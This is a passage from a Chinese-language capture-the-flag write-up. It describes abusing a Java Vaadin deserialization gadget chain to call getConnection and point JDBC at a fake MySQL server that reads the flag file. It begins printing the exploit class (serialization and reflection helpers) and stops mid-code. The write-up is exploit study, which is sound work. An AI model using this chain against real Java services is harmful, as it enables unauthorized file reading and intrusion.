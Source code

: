 [![](assets/1709282823-8011c7fa3a75421d1418a96a6684c952.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162741-67a581c8-d6dc-1.png)

可以发现这里存在`getConnection`​方法，而在 Vaadin 分析中可以得知，其链子一部分是可以调用任意属性的 getter 方法的，所以在这里思路就是：调用`getConnection`​方法来控制 JDBC 来连恶意的 mysql 从而读取 flag，而已的 mysql 为

[https://github.com/fnmsd/MySQL\_Fake\_Server](https://github.com/fnmsd/MySQL_Fake_Server)

根据 Vaadin 的 exp 来修改下即可，最后的 exp(这里参考大头 Sec 的 Wp) 为

```bash
import com.ctf.bean.MyBean;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;


public class Vaadin_Ser {


    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] ser(Object obj) throws Exception{
```